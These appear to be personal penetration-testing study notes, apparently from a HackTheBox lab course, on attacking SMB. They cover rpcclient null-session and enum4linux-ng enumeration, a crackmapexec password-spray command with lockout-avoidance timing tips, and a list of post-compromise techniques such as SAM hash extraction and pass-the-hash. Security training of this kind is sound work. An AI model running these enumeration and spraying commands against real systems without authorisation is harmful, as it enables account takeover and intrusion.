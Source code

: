 
#### Remote Procedure Call (RPC)
`rpcclient`
[cheat sheet from the SANS Institute](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf)

```shell-session
AhmaDb0x@htb[/htb]$ rpcclient -U'%' 10.10.110.17
```

`Enum4linux` is another utility that supports null sessions, and it utilizes `nmblookup`, `net`, `rpcclient`, and `smbclient` to automate some common enumeration from SMB targets such as:

- Workgroup/Domain name
- Users information
- Operating system information
- Groups information
- Shares Folders
- Password policy information

```shell-session
AhmaDb0x@htb[/htb]$ ./enum4linux-ng.py 10.10.11.45 -A -C
```

#### no nullsessions ?
credentials needed
best practices ? target a list of usernames with one common password.
avoid account lockouts.

```
its good to know the threshold , wait 30 min or 60 min betweeen atempts
```

#### Password Spray
```shell-session
AhmaDb0x@htb[/htb]$ crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth --continue-on-success


--local-auth : non domain joined
cme stops win it hists valid user
use `--continue-on-success` 
```
linux:
```
when attacking smb usually we only get access to the file system , abuse priv , exploit known vuln cve;s 
```
windows:
```
if the user we compromides has high priv 
- Remote Command Execution
- Extract Hashes from SAM Database
- Enumerating Logged-on Users
- Pass-the-Hash (PTH)
```
